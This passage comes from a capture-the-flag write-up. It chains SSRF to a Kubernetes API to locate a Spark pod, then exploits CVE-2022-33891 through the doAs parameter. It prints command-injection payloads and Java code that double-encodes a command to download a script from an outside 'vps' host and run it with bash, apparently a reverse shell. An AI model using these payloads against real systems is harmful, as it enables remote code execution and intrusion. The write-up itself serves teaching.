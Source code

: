 Combining all the information, you can construct a payload to attack k8s to obtain information.

```http
url=https://127.0.0.1:6443/api/v1/namespaces/&Vcode=code....
url=https://127.0.0.1:6443/api/v1/namespaces/ctf/pods&Vcode=code...
```

You will find a namespace named ctf, and a pod under ctf, where you can get the ip and port information and the deployment name "spark:"

```json
k:{containerPort:\"8080\"}
"hostIP": "10.12.22.6",
"podIP": "10.244.0.111",
"podIPs": [{"ip": "10.244.0.111"}]
```

![image-20220825105748008](http://img.l1near.top/e6c9d24ely1h5itt7q1alj21h00r2n6i.jpg)

![image-20220825110610433](http://img.l1near.top/e6c9d24ely1h5iu1xyuyhj21h20min8c.jpg)

Finally, you can ssrf access to spark's home page with ip and port information and find the spark version: 3.2.1.

You can search for the related CVE-2022-33891

![image-20220825111659673](http://img.l1near.top/e6c9d24ely1h5iud4zvy6j20kw0cejsx.jpg)

You'll learn that his doAS argument is executed using bash

![image-20220825112004059](http://img.l1near.top/e6c9d24ely1h5iuhhjkxjj214a08ywg1.jpg)

So now it comes down to the regular command execution bypass `(backquote), some possible bypass methods are as follows.

```shell
?doAs=;command
?doAs=$(command) (write by ADVambystoma)
```

(b) Finally, there is the problem common to many people, where the url encoding of their payload twice leads to a failed attack, due to the decoding of the new URL().

You can refer to https://blog.csdn.net/weixin_39715513/article/details/114212587.

You can use java to construct the payload.

```java
# 下载
String a = URLEncoder.encode(";curl http://vps:8888/rev.html>/tmp/rev.sh","utf-8");
String c = URLEncoder.encode(a,"utf-8");
System.out.println(c);
--------------------------------------------------
# 执行
String a = URLEncoder.encode(";bash /tmp/rev.sh","utf-8");
String c = URLEncoder.encode(a,"utf-8");
System.out.println(c);
```
